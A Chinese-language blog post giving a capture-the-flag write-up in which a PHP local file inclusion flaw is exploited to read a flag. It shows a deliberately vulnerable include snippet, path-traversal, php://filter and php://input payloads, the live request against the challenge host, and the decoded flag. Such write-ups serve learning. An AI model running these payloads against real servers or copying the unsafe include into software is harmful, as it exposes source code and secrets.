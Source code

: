 ```yaml
---
layout:     post
title:      2019-04-08 收获 总结
subtitle:   BasicSQL解题
date:       2019-04-08
author:     DaYou
header-img: img/post-bg-cook.jpg
catalog: true
---
```



## 0x1 题目要求
![](https://wx3.sinaimg.cn/mw1024/0079f8Holy1g1wp2y9jtdj30gl09t0sl.jpg)
注：-[题目中的连接](http://123.207.149.64:23338)
打开链接后的页面：
![](https://wx4.sinaimg.cn/mw1024/0079f8Holy1g1wp2yapakj30f1064wee.jpg)

## 0x2 解题步骤

### 1. 原理
php文件包含函数（四个）过滤不严：require、require_once、include、include_once。
include和require区别主要是，include在包含的过程中如果出现错误，会抛出一个警告，程序继续正常运行；而require函数出现错误的时候，会直接报错并退出程序的执行。

### 2. 文件包含漏洞的常见使用方法
1）php包含上传文件
```
<?php 
 $file = $_GET['page']; 
 include $file; 
?>
url?page=../../file.txt
```
2）php包含读文件
将php源码以base64编码的形式读出来，下面是一个payload的示例：
```
http://192.168.5.79/index.php?url=php://filter/read=convert.base64-encode/resource=flag
```
3） php包含写文件
要是想利用包含写文件，必须开启PHP的url_allow_
include远程URL功能，但是这个功能经过测试在5.3.0的时候已经用不了了，5.4.0直接废除了，因此在PHP 5.3.0一下版本才能实现。
```
url?page=php://input
```
### 3.利用方法2）解题
构造payload:
```
http://123.207.149.64:23338/?page=php://filter/read=convert.base64-encode/resource=flag
```
得到base64位加密后的代码：
```
aGEgaGE/IHlvdSB3YW50IGZsYWc/IGZsYWcgaXMgaGVyZTw/cGhwDQovLyB0cnkgdG8gcmVhZCB0aGlzIHNvdXJjZSBjb2RlDQovLyRmbGFnID0gJ2ZsYWd7cmVhbGx5X2Jhc2ljX3NraWxsX3dlYl9kb2dfc2hvdWxkX2tub3d9JzsNCj8+LCBidXQgZG9uJ3QgbGV0IHlvdSBzZWUhDQo=
```
利用-[在线工具解码](http://tool.oschina.net/encrypt?type=3)：
![](https://wx3.sinaimg.cn/mw1024/0079f8Holy1g1wp2ycr0hj30s50540sr.jpg)
得到flag:flag{really_basic_skill_web_dog_should_know}
